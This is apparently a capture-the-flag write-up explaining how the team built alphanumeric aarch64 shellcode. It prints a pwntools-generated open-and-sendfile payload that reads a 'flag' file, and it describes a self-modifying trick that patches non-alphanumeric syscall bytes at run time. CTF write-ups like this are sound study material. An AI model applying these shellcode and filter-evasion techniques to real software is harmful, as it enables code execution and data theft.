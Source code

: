 ### Deal with familiar architecture first! (`x86-64`)

This part is done by @how2hack.

### Learning `aarch64` shellcode

We never write `aarch64` shellcode before, so the first step is to create a simple straightforward "orw" (stands for Open, Read, Write) shellcode. We used `pwntools` library and print out the assembly of `shellcraft.cat('flag')`.

```python
from pwn import *
context.arch = 'aarch64'
print(shellcraft.cat('flag'))
```

Then we get:

```
    /* push b'flag\x00\x00\x00\x00' */
    sub sp, sp, #16
    /* Set x0 = 1734437990 = 0x67616c66 */
    mov  x0, #27750
    movk x0, #26465, lsl #16
    stur x0, [sp, #16 * 0]
    /* call open('sp', 0, 'O_RDONLY') */
    mov  x0, sp
    mov  x1, xzr
    mov  x2, xzr
    mov  x8, #(SYS_open)
    svc 0
    /* call sendfile(1, 'x0', 0, 2147483647) */
    mov  x1, x0
    mov  x0, #1
    mov  x2, xzr
    /* Set x3 = 2147483647 = 0x7fffffff */
    mov  x3, #65535
    movk x3, #32767, lsl #16
    mov  x8, #(SYS_sendfile)
    svc 0
```

Now we need to transform the above assembly into a shellcode that uses alphanumeric bytes.

##### System call

The instruction `svc` in aarch64 stands for "supervisor call". It works like `syscall` in x86-64. However, if we look up section C3.2.3 of [aarch64 machine code table](https://github.com/CAS-Atlantic/AArch64-Encoding/blob/master/binary%20encodding.pdf), we know that the two most significant bytes is definitely not alphanumeric. Therefore, we must come up with a workaround. Note that our goal for now is to generate a `svc #257` instruction, whose machine code is `b'! \x00\xd4'`. We only have two invalid bytes (`b'\x00\xd4`).

The workaround is that we send `b'! AA'` as placeholder and dynamically change `b'AA'` into `b'\x00\xd4`. To achieve this, we observe that the registers `x0` and `x1` always point to our shellcode. Therefore, we can use `strb w??, [x1, x??]` or `strh w??, [x1, x??]` to dynamically modify our shellcode.
